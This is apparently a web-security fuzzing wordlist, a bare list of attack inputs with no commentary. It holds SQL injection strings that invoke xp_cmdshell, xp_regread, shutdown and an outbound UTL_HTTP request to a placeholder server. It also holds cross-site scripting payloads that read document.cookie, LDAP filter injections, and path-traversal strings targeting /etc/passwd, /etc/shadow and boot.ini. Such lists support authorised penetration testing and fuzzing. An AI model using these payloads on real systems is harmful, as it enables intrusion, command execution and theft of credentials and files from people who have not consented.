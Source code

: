 '';!--"<XSS>=&{()}
') or ('a'='a
'--
'; exec master..xp_cmdshell
'; exec xp_regread
'; waitfor delay '0:30:0'--
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}
';shutdown--
'><script>alert(document.cookie);</script>
'><script>alert(document.cookie)</script>
'hi' or 'x'='x';
'or select *
'sqlattempt1
'||UTL_HTTP.REQUEST
'||Utl_Http.request('http://<yourservername>') from dual--
(
(')
(sqlattempt2)
)
))))))))))
*
*&apos;
*'
*(|(mail=*))
*(|(objectclass=*))
*/*
*|
+
+%00
,@variable
-
--
--';
--sp_password
-1
-1.0
-2
-20
-268435455
..%%35%63
..%%35c
..%25%35%63
..%255c
..%5c
..%bg%qf
..%c0%af
..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../boot.ini
..%u2215
..%u2216
../
../../../../../../../../../../../../etc/hosts
../../../../../../../../../../../../etc/hosts%00
../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../etc/shadow
../../../../../../../../../../../../etc/shadow%00
..\
..\..\..\..\..\..\..\..\..\..\etc\passwd
..\..\..\..\..\..\..\..\..\..\etc\passwd%00
..\..\..\..\..\..\..\..\..\..\etc\shadow
..\..\..\..\..\..\..\..\..\..\etc\shadow%00
.\\./.\\./.\\./.\\./.\\./.\\./etc/passwd